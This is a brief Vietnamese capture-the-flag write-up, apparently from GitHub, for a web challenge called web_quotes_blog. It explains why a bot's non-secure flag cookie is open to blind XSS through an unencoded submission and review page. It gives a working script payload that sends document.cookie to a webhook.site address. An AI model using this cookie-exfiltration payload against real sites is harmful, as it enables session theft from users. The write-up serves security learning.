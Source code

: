 
URL: http://178.128.33.213:30087/
1. Phân tích chung
- Người ra đề cho full source code của bài nên việc nhìn ra bug ở 2 bài này là khá dễ, đối với những dạng bài như thế này không cung cấp source code thì sẽ phù hợp hơn cho việc suy đoán về lỗ hổng.
- Cả hai bài đều có một điểm chung là set flag cho bot thông qua cookie.
![image](https://user-images.githubusercontent.com/22276712/205419252-3bb7dd45-b83e-40c0-bbdc-99655213e6ed.png)
- Khi Set flag trong cookie thì việc lấy được flag thì có một số hướng như sau:
+ Chiếm được tài khoản bot
+ Sử dụng HTTP Smuggling
+ Sử dụng XSS để lấy cookie=> Thiên về cách này hơn, vì cookie không được set secure có thể chiếm qua XSS.
2. web_quotes_blog
- có hai chức năng cần lưu ý
- ![image](https://user-images.githubusercontent.com/22276712/205420687-a53248b2-481a-4f48-813e-aa63c03d9db4.png)
- Đầu tiên là chức năng Submition, có vẻ như chức năng này sẽ giống như chức năng gửi góp ý hay thông tin hỗ trợ mà các trang web hiện đại hay dùng. Đối vỡi form này nếu không có cơ chế encode thì có thể dễ dàng bị blind XSS, vì phản hồi sẽ không hiển thị ra ngay lập tức mà phải check qua một phàn hồi tương tác ngoài trang web.
- chức năng thứ 2 là review: Chức năng này chỉ cho phép truy cập từ địa local=> chức năng này sẽ cho bot review
- ![image](https://user-images.githubusercontent.com/22276712/205422073-c66bef6f-cbe9-4ab2-9d36-a0c8cfa5f719.png)
- trong trang web review thì không có cơ chế encode nên dĩ nhiên chèn bất cứ đoạn mã js đều được thực thi 1 cách dễ dàng
- Cách lấy flag:
- Submit tới bot với payload: <script>document.location.href="https://webhook.site/a54c32a2-7c8f-4a55-8555-f069f2c63965?%22+document.cookie;</script>
- ![image](https://user-images.githubusercontent.com/22276712/205422275-9eb7f5e2-47d0-4cc4-b7a3-bba70db95424.png)



 

